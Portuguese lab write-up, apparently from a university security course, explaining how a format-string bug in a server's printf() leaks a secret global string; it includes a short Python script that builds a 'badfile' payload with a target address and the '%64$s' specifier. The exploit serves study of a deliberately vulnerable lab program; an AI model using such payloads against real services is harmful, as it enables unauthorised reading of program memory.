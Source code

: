 O objetivo é dar *print* de uma variável global do tipo *string*.
Para tal, é necessário:

1. Saber o endereço onde se encontra.
2. Colocar na *stack* o valor do endereço do ponto 1.
3. Aceder ao endereço e dar `print` da *string* aí encontrada.

O ponto `1.` é dado pelo *printout* do *server*:  
![/imgs6/secret_message_address.png](/imgs6/secret_message_address.png)

O ponto `2.` é efetuado fornecendo o endereço como *input* ao programa dado que
esse *input* é guardado num *buffer*.  

O ponto `3.` é feito fazendo *exploit* da vulnerabilidade detetada no `printf()`.

Assim, usámos de novo um *script* de *python* para gerar o `badfile` que vai servir como *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080b4008
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%64$s").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

De notar que estamos a guardar o endereço `0x080b4008` no início e após isso usámos
o *format-specifier* `%64$s` de modo a dar print à *string* do suposto argumento 64 da 
`printf()`. (64 foi o número encontrado na [Tarefa 2.A](#tarefa-2a) e que, usado desta forma,
faz com que seja usado o endereço dado nos primeiros 4 *bytes* do *input* como endereço da *string*
que se pretende dar *print*)

*Printout* do *server* onde é possível ver o conteúdo da *secret-message*:  
![/imgs6/secret_message.png](/imgs6/secret_message.png)
